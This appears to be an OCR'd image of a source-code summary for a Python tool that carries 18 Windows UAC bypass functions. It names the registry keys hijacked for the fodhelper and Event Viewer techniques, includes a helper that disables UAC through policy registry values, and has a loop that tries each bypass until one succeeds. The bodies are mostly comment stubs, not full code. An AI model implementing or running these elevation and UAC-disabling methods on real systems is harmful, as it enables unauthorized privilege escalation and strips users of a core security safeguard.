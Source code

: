 ### **Individual Bypass Functions (18 functions):**

**1. bypass_uac_fodhelper_protocol()** (Lines 2197-2237)
```python
def bypass_uac_fodhelper_protocol():
    """Fodhelper.exe ms-settings protocol bypass"""
    # Create: HKCU\Software\Classes\ms-settings\shell\open\command
    # Run: fodhelper.exe
    # Cleanup
```

**2. bypass_uac_eventvwr()** (Lines 2714-2769)
```python
def bypass_uac_eventvwr():
    """Event Viewer mscfile registry hijack"""
    # Create: HKCU\Software\Classes\mscfile\shell\open\command
    # Run: eventvwr.exe
    # Cleanup
```

**3. bypass_uac_computerdefaults()** (Lines 2238-2271)
**4. bypass_uac_sdclt()** (Lines 2770-2811)
**5. bypass_uac_wsreset()** (Lines 2812-2853)
**6. bypass_uac_slui_hijack()** (Lines 2659-2713)
**7. bypass_uac_winsat()** (Lines 2966-3022)
**8. bypass_uac_cmlua_com()** (Lines 2157-2196)
**9. bypass_uac_dccw_com()** (Lines 2272-2317)
**10. bypass_uac_dismcore_hijack()** (Lines 2318-2366)
**11. bypass_uac_wow64_logger()** (Lines 2367-2395)
**12. bypass_uac_silentcleanup()** (Lines 2396-2439)
**13. bypass_uac_token_manipulation()** (Lines 2440-2509)
**14. bypass_uac_junction_method()** (Lines 2510-2539)
**15. bypass_uac_cor_profiler()** (Lines 2540-2573)
**16. bypass_uac_com_handlers()** (Lines 2574-2615)
**17. bypass_uac_volatile_env()** (Lines 2616-2658)
**18. bypass_uac_mmcex()** (Lines 3023-3082)

### **Additional Helper Functions:**

**elevate_via_registry_auto_approve()** (Lines 2027-2053)
```python
def elevate_via_registry_auto_approve():
    """Modify registry to auto-approve UAC prompts"""
    # Set: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
    # ConsentPromptBehaviorAdmin = 0 (no prompt)
    # EnableLUA = 0 (disable UAC)
```

**keep_trying_elevation()** (Lines 2054-2084)
```python
def keep_trying_elevation():
    """Keep trying different elevation methods"""
    methods = [
        bypass_uac_fodhelper_protocol,
        bypass_uac_eventvwr,
        bypass_uac_computerdefaults,
        bypass_uac_sdclt,
        # ... all methods
    ]
    
    for method in methods:
        try:
            if method():
                return True
        except:
            continue
```